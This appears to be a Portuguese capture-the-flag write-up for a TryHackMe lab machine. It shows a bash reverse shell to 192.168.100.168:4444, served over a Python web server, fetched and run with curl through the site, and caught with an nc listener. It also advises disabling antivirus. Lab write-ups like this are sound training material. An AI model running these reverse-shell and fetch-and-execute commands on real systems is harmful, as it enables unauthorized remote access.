 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---
## obs: Desligar antivirus.

### Parece que a mquina tem um curl ,da pra subir um arquivo shell em servidor python com o script do shelRev baixar na maquina com o curl , executar e escutar a resposta do outro lado

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)
### dentro do arquivo shell_2.sh

```shell
  #!/bin/bash
  bash -i >& /dev/tcp/192.168.100.168/4444 0>&1

```

### Dentro dessa pasta vamos subir o servidor pyhton para baixar com o curl
![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### No site vamos colocar o comando do curl para baixar o arquivo e em seguida ja executa-lo | shel_2
![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### no outro terminal eu fico na escuta do nc -nlvp 4444
![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

### shel recebido agora fazer post exploration e escalar previlegio
## acesso a maquina pelo www/data
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)
# aqui estao todos os arquivos que foi feito o fuzzing ,Agora fazer um exploração pelos arquivos em busca de algo interessante



